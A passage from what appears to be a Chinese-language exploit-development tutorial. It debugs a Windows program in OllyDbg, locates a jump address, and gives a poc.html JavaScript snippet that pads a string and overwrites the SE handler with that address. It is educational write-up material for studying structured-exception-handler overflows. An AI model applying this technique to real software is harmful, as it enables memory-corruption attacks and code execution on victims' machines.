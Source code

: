 Plugins->OllyFindAddr->Overflow return address->Find CALL/JMP [EBP+N], 选择"L", 找到0x300b2d1c这个跳板
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x012-014.png)

修改poc.html
```
var s = "\u9090";
while (s.length < 60) {
s += "\u9090";
}
s+="\u9090\u9090";
s+="\u2D1C\u300B";
```

再次打开, OD附加上去, 来到call sprintf再走一步, 现在SE Handler已经覆盖成跳板地址
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x012-015.png)

先在0x300b2d1c下断, 来到这里Shift+F9运行
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x012-016.png)
